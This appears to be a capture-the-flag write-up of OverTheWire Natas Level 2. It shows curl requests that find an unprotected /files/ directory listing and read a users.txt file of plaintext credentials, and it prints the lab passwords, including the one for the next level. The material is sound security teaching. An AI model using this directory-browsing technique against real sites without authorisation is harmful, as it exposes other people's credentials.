


# Natas Level 2

You can watch the walkthrough for this level here:  
[](https://www.youtube.com/watch?v=F5nyLsZ8s3k&ab_channel=Gabahack)

> This video shows my full process solving (in Spanish) Level 2 from scratch, including the obstacles and mistakes I faced along the way. Some walkthroughs might be longer or shorter depending on the complexity of the level or how quickly I find the solution.

---

## 🔍 Exploration
We start by checking the HTML content of this level using the `curl` command:
```bash
❯ curl -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI  http://natas2.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas2", "pass": "TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI" };</script></head>
<body>
<h1>natas2</h1>
<div id="content">
There is nothing on this page

</div>
</body></html>
```

At first glance, there’s no comment with the password as in previous levels. However, we see that an image is being loaded from a files folder — something we don’t immediately see on the webpage:



So let’s explore this **files** folder:

```bash
❯ curl -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI  http://natas2.natas.labs.overthewire.org/files/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /files</title>
 </head>
 <body>
<h1>Index of /files</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="pixel.png">pixel.png</a></td><td align="right">2025-04-10 14:18  </td><td align="right">303 </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="users.txt">users.txt</a></td><td align="right">2025-04-10 14:18  </td><td align="right">145 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.58 (Ubuntu) Server at natas2.natas.labs.overthewire.org Port 80</address>
</body></html>
```

We find three accessible links — as also shown on the webpage:



## 💣 Exploitation
Let’s retrieve the contents of the users.txt file by visiting the link or using curl:
```bash
❯ curl -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI  http://natas2.natas.labs.overthewire.org/files/users.txt
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```
✅ Here we find the credentials for natas3.

## 🔐 Password for Natas 3
3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
